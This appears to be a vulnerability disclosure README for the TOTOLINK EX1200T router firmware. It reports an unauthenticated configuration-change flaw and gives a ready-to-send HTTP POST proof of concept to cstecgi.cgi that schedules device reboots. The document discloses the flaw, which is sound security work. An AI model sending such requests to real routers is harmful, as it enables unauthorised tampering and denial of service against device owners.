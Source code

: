 # TOTOLINK EX1200T REBOOT

## Reboot Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

Most of the function `setXxxxxx` in the file `xxx.so`  can cause an attacker to change the configuration without authorization.

For example, in the function `setRebootScheCfg` of the file `system.so`, attacker can set the restart time.

![image-20211102223356671](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211102223356671.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 95

{"topicurl":"setting/setRebootScheCfg",
"mode":"1","week":"6",
"hour":"13",
"minute":"13"
}
```

After:

![image-20211102223518276](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211102223518276.png)